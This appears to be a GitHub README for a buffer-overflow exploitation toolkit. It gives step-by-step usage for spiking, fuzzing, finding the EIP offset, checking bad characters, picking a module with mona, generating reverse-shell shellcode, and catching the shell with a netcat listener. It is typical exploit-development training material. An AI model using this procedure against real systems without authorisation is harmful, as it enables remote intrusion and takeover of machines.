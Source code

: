 
## Usage Guide:

### Spiking -> 
Edit spiking.spk with the command you want to spike
```
bash spiking.sh <ip> <port>
```

### Fuzzing ->
Inside python fuzzing.py 
Edit:
```
1. ip
2. port
3. command
```
>python fuzzing.py
**Keep the program crash output _byte size_**

### Offset -> 
```
bash pattern.sh <byte size>
```
copy the pattern and paste in **offset.py** and change the **ip** **port** & **command**.
> python offset.py
> bash offset_value.sh <byte size> <pattern form Immunity Debugger>
**Keep the program output _actual size**

### OverWrite EIP ->
Inside overWriteEIP.py
Edit:
```
1. Actual value
2. ip
3. port
4. command
```
> python overWriteEIP.py
### Finding bad char -> 
Inside badchar.py
Edit:
```
1. Actual value
2. ip
3. port
4. command
```
> python badchar.py
**right click on ESP register vlaue and follow in dump and check for bad characters** 
### Finding right module -> 
!mona module "<with dll with all false> "
### Generate shell code ->
> bash rev_shell.sh <your ip> <your port>
**Keep the output _payload_**
### Gain access -> 
Inside final.py
Edit:
```
1. Payload
2. Actual value
3. ip
4. port
5. command
```
Now Start netcat :
> nc -lvnp <your ip> <your port>
And Finally run:
>python final.py
